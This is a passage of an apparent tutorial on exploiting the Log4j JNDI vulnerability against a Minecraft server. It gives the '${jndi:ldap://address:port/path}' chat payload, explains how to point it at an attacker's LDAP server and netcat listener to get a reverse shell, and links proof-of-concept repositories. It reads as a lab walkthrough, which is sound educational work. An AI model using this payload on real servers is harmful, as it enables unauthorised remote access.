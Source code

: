 You need to replace the host and port variable with your netcat listener host and port. You also need to set up the LDAP referral to go to this file instead of the Log4jRCE.

### Doing the exploit

To actually do the exploit, you need to be in Minecraft on the server. When you send a chat message, that gets logged. We can also make use of JNDI ( Java Naming and Directory Interface ) functionality to connect to our LDAP server. To make that connection happen, in the chat send:
```
${jndi:ldap://address:port/path}
```
- The address is the address of your attacking machine ( specifically the LDAP server ).
- The port is the port you assigned to the LDAP server
- The path is the name of the file to send back ( such as Log4jRCE or Log4jShell)

Now there should be a reverse shell granting you access to the server.

## References
- https://github.com/davidbombal/log4jminecraft
- https://github.com/mbechler/marshalsec
- https://github.com/xiajun325/apache-log4j-rce-poc
- https://www.youtube.com/watch?v=efnluUK_w_U
- https://www.youtube.com/watch?v=7qoPDq41xhQ&t
- https://mcversions.net/
- https://github.com/kozmer/log4j-shell-poc